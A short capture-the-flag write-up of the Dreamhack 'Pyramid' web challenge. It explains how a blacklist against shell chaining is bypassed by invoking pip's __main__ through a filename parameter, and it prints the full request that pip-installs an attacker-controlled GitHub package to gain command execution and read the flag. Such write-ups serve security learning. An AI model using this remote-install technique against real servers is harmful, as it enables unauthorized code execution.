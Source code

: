 ```yaml
---
title: "Pyramid"
date: 2025-10-20
description: "dreamhack level 5 web chall"
tags: ["dreamhack", "ctf", "web", "command injection"]
---
```


<img src="/blog/dreamhack_pyramid_writeup/images/chall.png" width=400>

We are given a webpage where we can pass in a filename which will get executed by the server.  

<img src="/blog/dreamhack_pyramid_writeup/images/webpage.png" width=400>

This looks like a command injection vulnerability at first, but looking at the source code, all symbols that are used for bash command chaining are blacklisted. We are also required to pass in a python file that already exists.  

<img src="/blog/dreamhack_pyramid_writeup/images/filters.png" width=600>

We can potentially use the `pip` script to install an external exploit script on the server to be executed later on.  

Looking at the Dockerfile, we notice that the container installs `Python 3.11`. This means that the python script for `pip` will be located at `/usr/local/lib/python3.11/site-packages/pip/__main__.py`.  

We can verify this on the webpage.  

<img src="/blog/dreamhack_pyramid_writeup/images/pip.png" width=600>

I hosted a custom Python package on github that contains an exploit script that will execute arbitrary bash commands.  

<img src="/blog/dreamhack_pyramid_writeup/images/exploit.png" width=600>

After passing in the `pip` script located, we can then build a command that will pip install our exploit script on the server.  

```
/?/usr/local/lib/python3.11/site-packages/pip/__main__&install&git%2Bhttps://github.com/jeff-160/pyramid-solve.git&-t&.
```

<img src="/blog/dreamhack_pyramid_writeup/images/install.png" width=800>

We can then access our exploit script in `/bin/exploit.py` and use it to read `flag`.

<img src="/blog/dreamhack_pyramid_writeup/images/flag.png" width=600>